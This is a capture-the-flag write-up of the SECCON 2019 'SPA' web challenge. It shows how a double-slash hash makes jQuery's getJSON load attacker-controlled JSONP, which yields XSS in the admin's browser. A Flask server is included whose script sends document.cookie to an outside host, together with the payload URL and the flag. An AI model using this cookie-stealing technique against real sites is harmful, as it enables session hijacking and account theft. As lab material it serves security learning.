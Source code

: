 # SPA [427pts]

## Description

```
Last day my colleague taught me the concept of the Single-Page Application, which seems to be the good point to kickstart my web application development. Well, now it turned out to be MARVELOUS!

http://spa.chal.seccon.jp:18364/

Steal the cookie.
```

## Content

In this page, we can see single web page that works as website that has multiple web pages.
The trick is that this web page enrolls event handler that changes all content of webpage to onhashchange event.
This can be interesting, but it is not related to vulnerability.

![Main Page](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA.png)
Above: Content of [http://spa.chal.seccon.jp:18364/#](http://spa.chal.seccon.jp:18364/#)

Main page has 6 links for Flags, and one link for reporting admin.

![SECCON 2018](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA_2018.png)
Above: Content of [http://spa.chal.seccon.jp:18364/#SECCON2018](http://spa.chal.seccon.jp:18364/#SECCON2018)

Each Flag page contains flags of the SECCON CTF in the corresponding year.

![SECCON 2019](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA_2019.png)
Above: Content of [http://spa.chal.seccon.jp:18364/#SECCON2019](http://spa.chal.seccon.jp:18364/#SECCON2019)

Of course, we can not get the flag of this CTF :)

![Report](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA_report.png)
Above: Content of [http://spa.chal.seccon.jp:18364/#report](http://spa.chal.seccon.jp:18364/#report)

At report page, there is a description that admin will read url we provide, and placeholder has `http://spa.chal.seccon.jp:18364/*****`
If we send url, website is redirected to `http://spa.chal.seccon.jp:18364/query`, with reponse of `Okay! I got it :-)`


If we read source code of this website, we can find out following part:
```
...

async fetchContest(contestId) {
	this.contest = await $.getJSON(`/${contestId}.json`)
},
async fetchContests() {
	this.contests = await $.getJSON('/contests.json')
},
async onHashChange() {
	const contestId = location.hash.slice(1);
	if (contestId) {
		if (contestId === 'report') {
			this.goReport();
		} else {
			await this.goContest(contestId);
		}
	} else {
		this.goHome();
	}
},

...
```
It seems this website load flag information from json file using jQuery getJSON function.
For example, [http://spa.chal.seccon.jp:18364/SECCON2019.json](http://spa.chal.seccon.jp:18364/SECCON2019.json) will give us
```
{
  "flags": [
    {
      "genre": "Web",
      "name": "SPA",
      "point": null,
      "flag": null
    }
  ],
  "name": "SECCON CTF 2019 Quals",
  "links": {
    "CTFtime": "https://ctftime.org/event/799"
  },
  "date": {
    "start": 1571464800000,
    "end": 1571551200000
  }
}
```
and [http://spa.chal.seccon.jp:18364/contests.json](http://spa.chal.seccon.jp:18364/contests.json) will give us
```
[
  {
    "name": "SECCON 2014",
    "count": 29,
    "id": "SECCON2014"
  },
  {
    "name": "SECCON 2015",
    "count": 29,
    "id": "SECCON2015"
  },
  {
    "name": "SECCON 2016",
    "count": 27,
    "id": "SECCON2016"
  },
  {
    "name": "SECCON 2017",
    "count": 28,
    "id": "SECCON2017"
  },
  {
    "name": "SECCON 2018",
    "count": 25,
    "id": "SECCON2018"
  },
  {
    "name": "SECCON 2019",
    "count": 1,
    "id": "SECCON2019"
  }
]
```

## Solution

### host bypass

If url starts with one leading slash, following string will be interpreted as path, and scheme and host will be one of current webpage.
But, if url starts with two leading slash, following string will be interpreted as host + path, and only scheme will be one of current webpage.
In this way, If we place additional slash on the beginning of hash, we can inject malicious json to the webpage.
For example,`http://spa.chal.seccon.jp:18364/#/evil.com/payload`

### JSONP for XSS

At [jQuery API Documentation](https://api.jquery.com/jQuery.getJSON/), we can find out following:
```
JSONP

If the URL includes the string "callback=?" (or similar, as defined by the server-side API), the request is treated as JSONP instead. See the discussion of the jsonp data type in $.ajax() for more details.
```
With this, we can make admin make JSONP request to our server, so that we inject XSS script to admin web page.

I wrote a simple JSONP response server for XSS using flask.
```
#!/usr/bin/env python3
from flask import Flask, request, Response

app = Flask(__name__)
app.secret_key = "sumango3"

@app.route('/')
def main():
	data = 'location.href="http://1.2.3.4:1234?ck="+document.cookie;'
	mimetype = 'application/javascript'
	resp = Response(data, mimetype=mimetype)
	resp.headers['Access-Control-Allow-Origin'] = '*'
	return resp

if __name__ == '__main__':
	app.run(host='0.0.0.0',port=5001,debug=True)
```
and, our payload will be `http://spa.chal.seccon.jp:18364/#/1.2.3.4:1234/?callback=?&`

![My server](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA_server.png)
Above: successful XSS

## Flag

	SECCON{Did_you_find_your_favorite_flag?_Me?_OK_take_me_now_:)}


## Appendix

[JSONP server](https://github.com/sumango3/ctf/blob/master/Utils/jsonp-server.py)
